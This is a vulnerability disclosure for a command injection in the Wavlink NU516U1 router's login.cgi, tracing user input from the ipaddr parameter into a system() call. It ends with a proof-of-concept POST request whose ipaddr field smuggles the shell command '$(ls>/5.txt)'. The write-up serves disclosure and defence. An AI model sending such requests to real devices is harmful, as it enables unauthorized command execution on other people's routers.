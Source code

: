 # Wavlink NU516 login
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the ipaddr parameter in the sub_401270 function of the file login.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.

![](images/22.png)

Setting the value of the page parameter to login will call the sub_401270 function.

![](images/23.png)

In the sub_401270 function, the value of the ipaddr parameter is obtained via a post request. Then, the value of the ipaddr parameter is passed to the v39 variable via the sprintf function, which in turn is passed to the system function.

![](images/24.png)

![](images/25.png)

### POC
```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

newUI=1&page=login&username=admin&langChange=0&ipaddr=$(ls>/5.txt)&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.0.1&key=M61623319&lang_select=en&password=admin&password_vlaue=377dca4849d48c55faa4f3218cd6885d
```
